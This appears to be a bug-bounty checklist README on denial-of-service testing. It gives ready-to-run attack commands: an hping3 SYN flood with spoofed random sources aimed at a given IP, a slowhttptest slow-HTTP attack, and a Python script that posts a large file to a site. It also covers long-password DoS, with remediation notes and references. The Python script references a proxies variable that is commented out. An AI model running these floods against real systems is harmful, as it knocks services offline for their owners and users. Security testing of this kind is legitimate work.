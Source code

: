 ## 1) TCP SYN FLOOD DOS ATTACK
DoS attacks are simple to carry out, can cause serious downtime, and aren’t always obvious. In a SYN flood attack, a malicious party exploits the TCP protocol 3-way handshake to quickly cause service and network disruptions, ultimately leading to an Denial of Service (DoS) Attack. These type of attacks can easily take admins by surprise and can become challenging to identify. Luckily tools like Wireshark makes it an easy process to capture and verify any suspicions of a DoS Attack.

### HOW TCP SYN FLOOD ATTACKS WORK
When a client attempts to connect to a server using the TCP protocol e.g (HTTP or HTTPS), it is first required to perform a three-way handshake before any data is exchanged between the two. Since the three-way TCP handshake is always initiated by the client it sends a SYN packet to the server.

![image](https://user-images.githubusercontent.com/63053441/200159004-f6e1bddb-6629-47d5-a793-41f035a0ddfa.png)

The server next replies acknowledging the request and at the same time sends its own SYN request – this is the SYN-ACK packet. The finally the client sends an ACK packet which confirms both two hosts agree to create a connection. The connection is therefore established and data can be transferred between them.


In a SYN flood, the attacker sends a high volume of SYN packets to the server using spoofed IP addresses causing the server to send a reply (SYN-ACK) and leave its ports half-open, awaiting for a reply from a host that doesn’t exist:

![image](https://user-images.githubusercontent.com/63053441/200159205-2735b7d0-5540-42cb-ad1e-23f7ceba9b4c.png)

![image](https://user-images.githubusercontent.com/63053441/200159015-42f5ca86-1c89-480d-9b7a-038315764e61.png)

In a simpler, direct attack (without IP spoofing), the attacker will simply use firewall rules to discard SYN-ACK packets before they reach him. By flooding a target with SYN packets and not responding (ACK), an attacker can easily overwhelm the target’s resources. In this state, the target struggles to handle traffic which in turn will increase CPU usage and memory consumption ultimately leading to the exhaustion of its resources (CPU and RAM). At this point the server will no longer be able to serve legitimate client requests and ultimately lead to a Denial-of-Service.


### How To Test TCP SYN FLOOD DOS ATTACK?
However, to test if you can detect this type of a DoS attack, you must be able to perform one. The simplest way is via a Kali Linux and more specifically the hping3, a popular TCP penetration testing tool included in Kali Linux.

Alternatively Linux users can install hping3 in their existing Linux distribution using the command:

`sudo apt-get install hping3`

In most cases, attackers will use hping or another tool to spoof IP random addresses, so that’s what we’re going to focus on.  The line below lets us start and direct the SYN flood attack to our target (192.168.1.159): 

`hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159`

![image](https://user-images.githubusercontent.com/63053441/200159063-df24f0c9-c234-4821-a2ee-0e81a7c4ddca.png)

Let’s explain in detail the above command:

We’re sending 15000 packets (-c 15000) at a size of 120 bytes (-d 120) each. We’re specifying that the SYN Flag (-S) should be enabled, with a TCP window size of 64 (-w 64). To direct the attack to our victum’s HTTP web server we specify port 80 (-p 80) and use the --flood flag to send packets as fast as possible. As you’d expect, the --rand-source flag generates spoofed IP addresses to disguise the real source and avoid detection but at the same time stop the victim’s SYN-ACK reply packets from reaching the attacker.


## 2) Slow HTTP GET/POST Vulnerability

Slow HTTP attacks are denial-of-service (DoS) attacks that rely on the fact that the HTTP protocol, by design, requires a request to be completely received by the server before it is processed. If an HTTP request is not complete, or if the transfer rate is very low, the server keeps its resources busy waiting for the rest of the data. When the server’s concurrent connection pool reaches its maximum, this creates a denial of service. These attacks are problematic because they are easy to execute, i.e. they can be executed with minimal resources from the attacking machine.

`sudo apt install slowhttptest`

`slowhttptest -c 10000 -H -g -o slowhttp -i 1 -r 2000 -t GET -u https://example.com -x 2400 -p 3`

## 3) Big entity

Try sending a big request to the server. You can do it by send request with POST method to root with custom parameter or try in other fields like password or uploaders file name.
  ### 3.1) Python Script to send large file (a.txt with 50mg) as parameter to root directory:
```
import requests
import time

from requests.models import Response
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}  # If you want to see request in proxy server like Burp

session = requests.session()
f=open('a.txt','r').read()
#f=open(r'C:\Users\User\Desktop\dos\a.txt').read()   # Same to above line
burp0_url = "http://www.site.com/"
burp0_cookies = {"_ga": "GA1.2.1958363218.1640679715", "APPNNPS": "0emjb3ejnh1xxsnz025rhwvt"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Referer": "http://www.site.com/", "Upgrade-Insecure-Requests": "1"}
burp0_data = f
start = time.time()
response = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, proxies=proxies, verify=False)
print(response)
print(f'Time: {time.time() - start}')

```
  If Server is processing our request for long time and doesn't give time out to us, it's vulnerable.
  
  ### 3.2) Long password denial of service:
  By sending a very long password (1.000.000 characters) it's possible to cause a denial a service attack on the server. This may lead to the website becoming    unavailable or unresponsive. Usually this problem is caused by a vulnerable password hashing implementation. When a long password is sent, the password hashing process will result in CPU and memory exhaustion.

  This vulnerability was detected by sending passwords with various lengths and comparing the measured response times. Consult details for more information.
  
  you can find this at many places like :
  
  - #### profile-picture name (E.g with 3mb file name) [Payload link](https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/blob/main/DOS/payload.txt) /  [HackerOne Report](https://hackerone.com/reports/764434)
  - Username
  - Firstname or Lastname
  - Email Address (create your own email using temp-mail)
  - Address
  - Text-Area
  - Comment Section
  
  #### Remediation:
  The password hashing implementation must be fixed to limit the maximum length of accepted passwords.
  As in most systems there is a policy for the minimum number of characters, this limit should also exist for the maximum number of characters.
  
  How to found this vulnerability :

  1. Go to https://privateprogram.com/signup
  2. Fill the form and enter a long string in password
  3. Click on enter and you’ll get 500 Internal Server error if it is vulnerable:
  
  ![image](https://user-images.githubusercontent.com/63053441/200264593-ec1cfb7c-2f1b-4c5d-9701-65d2c3e0beed.png)

  #### NOTES : 
  - Also you must check you can login in program with that long password or not! (Is that password accepted from server?)
  - Now many a times it happens that the signup page is not vulnerable to Long String Dos so you can try it while resetting your password.
  - This DoS attack falls under the Application Level DoS and not Network Level DoS so you can report it. In some company’s policy of Out-Of-Scope, you’ll find “Denial of Service” which means Network Level DoS and not Application Level DoS. If the company has stated that “Any kind of DoS” is Out-Of-Scope that means you can’t report either of them.


  #### References:
  - https://www.acunetix.com/vulnerabilities/web/long-password-denial-of-service/
  - https://shahjerry33.medium.com/long-string-dos-6ba8ceab3aa0
  - https://cwe.mitre.org/data/definitions/400.html
  - https://hackerone.com/reports/223854
  - https://hackerone.com/reports/764434
